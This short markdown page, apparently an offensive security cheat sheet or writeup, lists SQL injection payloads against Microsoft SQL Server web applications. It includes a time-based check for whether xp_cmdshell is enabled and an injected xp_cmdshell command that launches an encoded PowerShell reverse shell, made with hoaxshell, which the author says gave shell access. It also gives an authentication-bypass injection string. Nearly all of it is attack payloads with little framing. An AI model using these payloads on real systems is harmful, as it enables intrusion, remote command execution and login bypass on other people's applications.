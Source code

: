 # SQL Payloads

## Payload to Check for xp_cmdshell:
```sql
'; IF EXISTS (SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell' AND value_in_use = 1) WAITFOR DELAY '00:00:05' -- //
```

A five-second delay in the response confirmed its activation. Next, I created a PowerShell payload using hoaxshell:

Hoax Reverse Shell Payload:
```sh
'; EXEC xp_cmdshell 'powershell -e eQBvAHUAcgAtAHAAYQB5AGwAbwBhAGQA...'; -- //
```

Execute it and successfully gain shell access, as you can see in the screenshot.

![img](https://media.licdn.com/dms/image/D4E22AQEMx7xvCP8YLA/feedshare-shrink_1280/0/1714023914371?e=1726099200&v=beta&t=j-GJQ0LxllbbHyNGD2dQGqsx_NFpRnCP_mQxo5z5GCw)

## Auth Bypass
```sql
admin')&password=')+or+30>10/
```
[img](/assets/sqli_auth_bypass.jpg)
